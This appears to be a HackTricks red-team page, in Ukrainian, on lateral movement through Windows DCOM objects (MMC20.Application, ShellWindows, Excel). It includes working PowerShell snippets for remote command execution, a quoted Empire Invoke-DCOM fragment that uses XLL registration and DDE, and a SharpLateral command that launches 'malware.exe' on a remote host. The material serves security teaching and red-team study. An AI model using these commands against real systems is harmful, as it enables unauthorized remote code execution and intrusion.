 # DCOM Exec

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## MMC20.Application

**Для отримання додаткової інформації про цю техніку перегляньте оригінальний пост з [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)**

Об'єкти Distributed Component Object Model (DCOM) представляють цікаву можливість для мережевих взаємодій з об'єктами. Microsoft надає всебічну документацію як для DCOM, так і для Component Object Model (COM), доступну [тут для DCOM](https://msdn.microsoft.com/en-us/library/cc226801.aspx) та [тут для COM](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx). Список DCOM додатків можна отримати за допомогою команди PowerShell:
```bash
Get-CimInstance Win32_DCOMApplication
```
Об'єкт COM, [MMC Application Class (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx), дозволяє сценарне управління операціями MMC snap-in. Зокрема, цей об'єкт містить метод `ExecuteShellCommand` під `Document.ActiveView`. Більше інформації про цей метод можна знайти [тут](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx). Перевірте його роботу:

Ця функція полегшує виконання команд через мережу за допомогою DCOM-додатку. Щоб взаємодіяти з DCOM віддалено як адміністратор, можна використовувати PowerShell наступним чином:
```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("<DCOM_ProgID>", "<IP_Address>"))
```
Ця команда підключається до DCOM-додатку та повертає екземпляр COM-об'єкта. Метод ExecuteShellCommand може бути викликаний для виконання процесу на віддаленому хості. Процес включає наступні кроки:

Перевірте методи:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com.Document.ActiveView | Get-Member
```
Отримати RCE:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com | Get-Member

# Then just run something like:

ls \\10.10.10.10\c$\Users
```
## ShellWindows & ShellBrowserWindow

**Для отримання додаткової інформації про цю техніку перегляньте оригінальний пост [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)**

Об'єкт **MMC20.Application** був виявлений без явних "LaunchPermissions", за замовчуванням надаючи дозволи, які дозволяють доступ адміністраторам. Для отримання додаткових деталей можна дослідити тему [тут](https://twitter.com/tiraniddo/status/817532039771525120), і рекомендується використовувати [@tiraniddo](https://twitter.com/tiraniddo)’s OleView .NET для фільтрації об'єктів без явного дозволу на запуск.

Два конкретні об'єкти, `ShellBrowserWindow` і `ShellWindows`, були виділені через відсутність явних дозволів на запуск. Відсутність запису `LaunchPermission` у реєстрі під `HKCR:\AppID\{guid}` означає відсутність явних дозволів.

###  ShellWindows
Для `ShellWindows`, який не має ProgID, методи .NET `Type.GetTypeFromCLSID` і `Activator.CreateInstance` полегшують створення об'єкта, використовуючи його AppID. Цей процес використовує OleView .NET для отримання CLSID для `ShellWindows`. Після створення об'єкта взаємодія можлива через метод `WindowsShell.Item`, що призводить до виклику методів, таких як `Document.Application.ShellExecute`.

Приклад команд PowerShell був наданий для створення об'єкта та виконання команд віддалено:
```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.Item()
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```
### Lateral Movement with Excel DCOM Objects

Бічний рух може бути досягнутий шляхом експлуатації DCOM об'єктів Excel. Для детальної інформації рекомендується прочитати обговорення про використання Excel DDE для бічного руху через DCOM на [блоці Cybereason](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom).

Проект Empire надає скрипт PowerShell, який демонструє використання Excel для віддаленого виконання коду (RCE) шляхом маніпуляції DCOM об'єктами. Нижче наведені фрагменти зі скрипту, доступного на [GitHub репозиторії Empire](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1), що демонструють різні методи зловживання Excel для RCE:
```powershell
# Detection of Office version
elseif ($Method -Match "DetectOffice") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$isx64 = [boolean]$obj.Application.ProductCode[21]
Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
# Registration of an XLL
elseif ($Method -Match "RegisterXLL") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$obj.Application.RegisterXLL("$DllPath")
}
# Execution of a command via Excel DDE
elseif ($Method -Match "ExcelDDE") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$Obj.DisplayAlerts = $false
$Obj.DDEInitiate("cmd", "/c $Command")
}
```
### Automation Tools for Lateral Movement

Два інструменти виділені для автоматизації цих технік:

- **Invoke-DCOM.ps1**: Сценар PowerShell, наданий проектом Empire, який спрощує виклик різних методів для виконання коду на віддалених машинах. Цей сценарій доступний в репозиторії Empire на GitHub.

- **SharpLateral**: Інструмент, призначений для віддаленого виконання коду, який можна використовувати з командою:
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## Automatic Tools

* Скрипт Powershell [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1) дозволяє легко викликати всі коментовані способи виконання коду на інших машинах.
* Ви також можете використовувати [**SharpLateral**](https://github.com/mertdas/SharpLateral):
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## Посилання

* [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)
* [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
